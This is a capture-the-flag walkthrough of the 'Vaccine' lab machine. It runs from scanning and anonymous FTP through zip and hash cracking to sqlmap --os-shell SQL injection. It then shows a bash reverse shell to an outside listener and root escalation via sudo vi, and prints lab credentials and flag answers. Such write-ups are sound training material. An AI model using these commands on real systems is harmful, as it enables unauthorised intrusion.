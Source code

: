 # Vaccine

## Initial Scan

```nmap
sudo nmap -T4 -Pn -sV -sC -v 10.129.248.153 -oA Vaccine
```

<figure><img src="../../../.gitbook/assets/image (915).png" alt=""><figcaption></figcaption></figure>

## Task 1

Besides SSH and HTTP, what other service is hosted on this box?

Answer: FTP

## Task 2

This service can be configured to allow login with any password for specific username. What is that username?

Answer: anonymous

## Task 3

What is the name of the file downloaded over this service?

```
ftp 10.129.248.153
```

<figure><img src="../../../.gitbook/assets/image (916).png" alt=""><figcaption></figcaption></figure>

Answer: backup.zip

## Task 4

What script comes with the John The Ripper toolset and generates a hash from a password protected zip archive in a format to allow for cracking attempts?

<figure><img src="../../../.gitbook/assets/image (917).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (918).png" alt=""><figcaption></figcaption></figure>

Answer: zip2john

## Task 5

What is the password for the admin user on the website?

<figure><img src="../../../.gitbook/assets/image (919).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (920).png" alt=""><figcaption></figcaption></figure>

backup.zip password:`41852963`&#x20;

<figure><img src="../../../.gitbook/assets/image (921).png" alt=""><figcaption></figcaption></figure>

Looking at index.html

<figure><img src="../../../.gitbook/assets/image (922).png" alt=""><figcaption></figcaption></figure>

Put the hash in a file and crack the hash with hashcat

```bash
hashcat -a 0 -m 0 hash /usr/share/wordlists/rockyou.txt
```

<figure><img src="../../../.gitbook/assets/image (923).png" alt=""><figcaption></figcaption></figure>

Answer:qwerty789

## Task 6

What option can be passed to sqlmap to try to get command execution via the sql injection? Looking at `sqlmap -h`

<figure><img src="../../../.gitbook/assets/image (924).png" alt=""><figcaption></figcaption></figure>

Answer: --os-shell

## Task 7

What program can the postgres user run as root using sudo?

Get the cookie from the Website.

<figure><img src="../../../.gitbook/assets/image (925).png" alt=""><figcaption></figcaption></figure>

```bash
sqlmap -u 'http://10.129.248.153/dashboard.php?search=any+query' --cookie="PHPSESSID=n33tru7g83ed1hqdgfm42gnqic" --os-shell
```

We get our shell.

<figure><img src="../../../.gitbook/assets/image (926).png" alt=""><figcaption></figcaption></figure>

Start the listener and run

```
bash -c "bash -i >& /dev/tcp/10.10.14.9/443 0>&1"
```

<figure><img src="../../../.gitbook/assets/image (927).png" alt=""><figcaption></figcaption></figure>

Answer: vi

## Task 8

Submit user flag

<figure><img src="../../../.gitbook/assets/image (928).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (929).png" alt=""><figcaption></figcaption></figure>

Answer: ec9b13ca4d6229cd5cc1e09980965bf7

## Task 9

Submit root flag

Looking at files in the /var/www/html as there's this uses PHP. Looking in the dashboard.php file we see

<figure><img src="../../../.gitbook/assets/image (930).png" alt=""><figcaption></figcaption></figure>

`user=postgres password=P@s5w0rd!`

<figure><img src="../../../.gitbook/assets/image (931).png" alt=""><figcaption></figcaption></figure>

Looking at various options on [GTBOBins](https://gtfobins.github.io/gtfobins/vi/#sudo)

<figure><img src="../../../.gitbook/assets/image (932).png" alt=""><figcaption></figcaption></figure>

Open a file we could only do as sudo vi

```
type :shell=/bin/sh
ENTER
:shell
ENTER
```

<figure><img src="../../../.gitbook/assets/image (933).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (934).png" alt=""><figcaption></figcaption></figure>

Answer: dd6e058e814260bc70e9bbdef2715849
